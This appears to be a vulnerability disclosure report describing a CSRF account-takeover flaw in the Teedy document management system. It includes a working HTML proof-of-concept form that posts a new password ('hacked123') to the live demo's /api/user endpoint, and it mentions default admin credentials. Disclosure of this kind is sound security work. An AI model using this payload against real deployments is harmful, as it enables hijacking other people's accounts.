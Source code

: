 ## :writing_hand: Description

Teedy is a lightweight document management system packed with all the features you can expect from big expensive solutions. It is vulnerable to account takeover with CSRF.

## :male_detective: Proof of Concept

1. Install the package by following these [instructions](https://github.com/sismics/docs#install-with-docker) or try the live demo https://demo.teedy.io
2. Login as admin with credentials `admin:admin`
3. Generate CSRF PoC from burpsuite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://demo.teedy.io/api/user" method="POST">
      <input type="hidden" name="password" value="hacked123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
4. Visit the payload URL and click submit button
5. The user's password is changed successfully

## :boom: Impact

An attacker is able to takeover any account

## :white_check_mark: Checklist

* [x]  _Created and populated the `README.md` and `vulnerability.json` files_

* [x]  _Provided the repository URL and any applicable permalinks_

* [x]  _Defined all the applicable weaknesses (CWEs)_

* [x]  _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_

* [x]  _Checked that the vulnerability affects the latest version of the package released_

* [x]  _Checked that a fix does not currently exist that remediates this vulnerability_

* [x]  _Complied with all applicable laws_


